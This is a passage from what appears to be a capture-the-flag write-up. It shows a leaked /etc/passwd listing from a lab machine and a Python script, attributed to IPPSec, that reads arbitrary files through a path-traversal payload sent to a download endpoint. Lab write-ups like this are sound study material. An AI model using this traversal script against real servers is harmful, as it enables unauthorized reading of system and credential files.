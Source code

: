 ```bash
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
clamav:x:1002:1003::/home/clamav:/usr/sbin/nologin
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash
bind:x:108:113::/var/cache/bind:/usr/sbin/nologin
_laurel:x:999:998::/var/log/laurel:/bin/false

```


## Python script to fetch files 

IPPSec's python script to automatize file download

```python
#!/usr/bin/env python3
import requests
import io
import zipfile
import sys

def download(file):
        url = f'http://10.10.11.212/download?file=....//....//....//..../{file}'
        r = requests.get(url)
        if len(r.content) == 0:
                return None
        zip_content = io.BytesIO(r.content)
        with zipfile.ZipFile(zip_content) as z:
                content = z.read(f"press_package{file}")
        return content.decode()

file = download(sys.argv[1])
if file:
        print(file)
```
